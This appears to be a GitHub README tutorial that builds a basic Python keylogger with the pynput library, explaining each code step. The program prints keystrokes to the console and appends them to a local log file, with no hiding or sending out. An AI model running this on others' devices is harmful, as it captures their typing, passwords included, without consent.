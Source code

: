 Simple keylogger made using Python

Below is the tutorial and explanation for buiding the keylogger:

1. Install pynput library
```
py -m pip install pynput
```

pynput lets you monitor and control input devices like the keyboard and mouse in Python. Install pynput in the command prompt of your device.

2. Import required modules
```
import pynput
from pynput.keyboard import Key, Listener
```

pynput provides access to input devices
Key helps detect special keys like Enter, Space, Shift, etc
Listener listens for keyboard events (key press or release)

3. Define function to write key to a log file
```
def write_file(key):    
    with open("ramLog.txt", 'a') as logKey:
        if hasattr(key, 'char') and key.char:
            logKey.write(key.char)
        else:
            logKey.write(f'[{key}]')
```

Opens or creates ramLog.txt in append mode ('a')
Checks if the key has a printable character (key.char)
If yes, it writes the character (e.g., "a", "b", "1")
If not (like Key.space, Key.enter), it writes the key in brackets (e.g., [Key.space])

4. Define the Key Press Handler
```
def on_press(key):
    print(f"{key} pressed")
    write_file(key)
```

This function is triggered whenever a key is pressed
Prints the key to the console and then calls write_file() function to save it to the log file

5. Start the Listener
```
with Listener(on_press=on_press) as listener:
    listener.join()
```

Starts listening for key presses using the on_press function.
listener.join() keeps the program running and listening until manually stopped.
